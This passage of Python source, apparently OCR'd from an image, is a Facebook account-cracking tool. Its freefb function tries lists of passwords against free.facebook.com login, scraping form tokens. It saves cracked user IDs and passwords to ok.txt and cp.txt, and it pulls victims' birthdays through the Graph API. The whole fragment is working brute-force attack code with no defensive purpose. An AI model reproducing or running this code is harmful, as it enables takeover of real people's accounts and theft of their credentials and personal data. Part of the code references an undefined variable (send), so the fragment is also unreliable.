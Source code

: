 			cp.append("%s | %s"%(uid, pw))
			open("cp.txt","a").write("%s | %s\n"%(uid, pw))
			open("checkcp.txt","a").write("%s | %s\n"%(uid, pw))
			break
		else:
			continue

	loop += 1
	
def freefb(uid, pwcuk):
	try:
		ua = open("ua", "r").read()
	except IOError:
		ua = ("NokiaC3-00/5.0 (07.20) Profile/MIDP-2.1 Configuration/CLDC-1.1 Mozilla/5.0 AppleWebKit/420+ (KHTML, like Gecko) Safari/420+")
	global ua_de, ok, cp, loop, token
	sys.stdout.write(
		"\r [GK] %s/%s OK:-%s - CP:-%s "%(loop, len(id), len(ok), len(cp))
	); sys.stdout.flush()
	for pw in pwcuk:
		kwargs = {}
		pw = pw.lower()
		ses = requests.Session()
		ses.headers.update({"origin": "https://free.facebook.com", "accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7", "accept-encoding": "gzip, deflate", "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8", "user-agent": ua, "Host": "free.facebook.com", "referer": "https://free.facebook.com/login/?next&ref=dbl&fl&refid=8", "cache-control": "max-age=0", "upgrade-insecure-requests": "1", "content-type": "application/x-www-form-urlencoded"})
		p = ses.get("https://free.facebook.com/login/?next&ref=dbl&refid=8").text
		b = parser(p,"html.parser")
		bl = ["lsd","jazoest","m_ts","li","try_number","unrecognized_tries","login"]
		for i in b("input"):
			try:
				if i.get("name") in bl:kwargs.update({i.get("name"):i.get("value")})
				else:continue
			except:pass
		kwargs.update({"email": uid,"pass": pw,"prefill_contact_point": "","prefill_source": "","prefill_type": "","first_prefill_source": "","first_prefill_type": "","had_cp_prefilled": "false","had_password_prefilled": "false","is_smart_lock": "false","_fb_noscript": "true"})
		qobil = ses.post("https://free.facebook.com/login/device-based/regular/login/?refsrc=https%3A%2F%2Ffree.facebook.com%2F&lwv=100&refid=8",data=kwargs)
		if "c_user" in ses.cookies.get_dict().keys():
			kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ]).replace("noscript=1;", "")
			print("\r \x1b[1;32m[prem-OK] %s • %s • %s\033[0;97m"%(uid, pw, send.json()["access_token"]))
			ok.append("%s | %s"%(uid, pw))
			open("ok.txt","a").write("%s | %s\n"%(uid, pw))
			break
		elif "checkpoint" in ses.cookies.get_dict().keys():
			try:
				token = open("login.txt", "r").read()
				with requests.Session() as ses:
					ttl = ses.get("https://graph.facebook.com/%s?access_token=%s"%(uid, token)).json()["birthday"]
					month, day, year = ttl.split("/")
					month = bulan_ttl[month]
					print("\r\x1b[1;33m [prem-CP] %s • %s • %s %s %s\033[0;97m"%(uid, pw, day, month, year))
					cp.append("%s | %s"%(uid, pw))
					open("cp.txt","a").write("%s | %s | %s\n"%(uid, pw, ttl))
					open("checkcp.txt","a").write("%s | %s | %s\n"%(uid, pw, ttl))
					break
			except (KeyError, IOError):
				day = (" ")
				month = (" ")
				year = (" ")